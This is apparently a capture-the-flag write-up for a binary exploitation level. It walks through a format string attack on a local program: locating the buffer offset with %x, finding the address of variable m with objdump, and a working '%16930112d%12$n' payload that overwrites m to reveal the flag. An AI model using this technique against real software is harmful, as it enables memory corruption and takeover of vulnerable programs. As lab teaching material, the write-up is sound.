# level4
The code looks like the previous level. But there are three differences:
- `printf` is called through a function `p` instead of directly
- The global variable `m` is compared to `0x1025544` instead of `0x40`
- the if statement cat directly the flag instead of run a shell

## Goal

Same goal : write `0x1025544` to `m` and get the flag

> 0x1025544 = 16930116 in decimal

But this time, we can't write 16930116 of caracters into the buffer because it is protected from overflow by (`fgets` reads 512 chars max).

## Step 1
find with which parameter `printf` fall on the `fgets` return address (the buffer address)    
```bash
$ (python -c 'print "AAAA " + "%x " * 16'; cat)  | /home/user/level4/level4
```
```console
AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078
```

the Buffer "is" the 13th parameter of `printf` (the 12th va_arg) 

## Step 2
Find the address of the `m` variable
```bash
$ objdump -t level4
```
```console
08049810 g     O .bss	00000004              m
```

## Exploit

```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'; cat)  | /home/user/level4/level4
```

- %12$n: refer to the 12th argument in the argument list of printf (the buffer)
- %16930112d: format the output and print 16930112 characters on stdout to display the 1st argument of the list  (decimal format)
    > 16930112 = 16930116 - 4 (4 bytes for the address of `m` ever written)
- \x10\x98\x04\x08: the address of `m` variable

Finally, it write 16930116